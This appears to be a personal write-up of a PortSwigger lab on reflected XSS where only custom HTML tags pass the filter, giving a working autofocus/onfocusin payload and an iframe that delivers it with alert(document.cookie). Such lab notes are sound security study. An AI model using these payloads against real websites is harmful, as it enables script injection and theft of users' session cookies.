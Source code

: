 # [XSS] LAB: Reflected XSS into HTML context with all tags blocked except custom ones (1)

---

![Untitled](%5BXSS%5D%20LAB%20Reflected%20XSS%20into%20HTML%20context%20with%20all%2056f8e64daa074319984983882168ae7f/Untitled.png)

so this lab is rejecting all tags but custom HTML tags we can see an example of this when we refer to <test> </test> and as you can see we were able to inject our own tags. 

![Untitled](%5BXSS%5D%20LAB%20Reflected%20XSS%20into%20HTML%20context%20with%20all%2056f8e64daa074319984983882168ae7f/Untitled%201.png)

one of the payload I tried but had no luck was something like this: 

```jsx
<test onresize="alert(1)"> </test>
```

but no luck 

using the XSS cheat sheet from burp suite and filtering by custom tags we can see a payload that requires no interaction 

```jsx
<xss autofocus tabindex=1 onfocusin=alert(1)></xss>
```

- `autofocus`: This attribute is a boolean attribute. When present, it specifies that an element should automatically get focus when the page loads. This means that as soon as the page is loaded, this element will be selected and ready for user input or interaction.
- `tabindex="1"`: This attribute specifies the tab order of an element (when the "tab" button is used for navigating). The value "1" means that this element is the first one to receive focus when tab navigation is used.
- `onfocusin=alert(1)`: This is an event attribute that specifies a script to run when an element is about to get focus. In this case, when the `<xss>` element is about to get focus, it triggers an alert dialog with the message "1".

the reason this one worked and mine didn’t is one of two reasons

1. onresize is only supported by window and iframe not elements 
2. the custom tag cannot be randomly given attributes without using a <script> </script> tag to define what those attributes do. 
    
    **Example:** 
    
    ```html
    <my-tag my-attribute="Hello, world!"></my-tag>
    
    <script>
        var myTag = document.querySelector('my-tag');
        console.log(myTag.getAttribute('my-attribute')); // Logs: "Hello, world!"
    </script>
    ```
    
    GPT EXPLANATION: 
    
    ![Untitled](%5BXSS%5D%20LAB%20Reflected%20XSS%20into%20HTML%20context%20with%20all%2056f8e64daa074319984983882168ae7f/Untitled%202.png)
    
    but since focus and tabindex is supported by all elements 
    
    more tags like autofocus: 
    
    ![Untitled](%5BXSS%5D%20LAB%20Reflected%20XSS%20into%20HTML%20context%20with%20all%2056f8e64daa074319984983882168ae7f/Untitled%203.png)
    
    and the **URL: <xss autofocus tabindex=1 onfocusin=alert(document.cook)></xss>**
    
    to Deliver the payload I can create an Iframe and just deliver it to the payload and it should work since the exploit require no user interaction. 
    
    so this is the iframe: 
    
    ```html
    <iframe src="about:blank" onload="window.location.href='https://0a20006e032792bb83f6014d00f4004f.web-security-academy.net/?search=%3Cxss+autofocus+onfocusin%3Dalert%28document.cookie%29+tabindex%3D1%3E%3C%2Fxss%3E';"> test</iframe>
    ```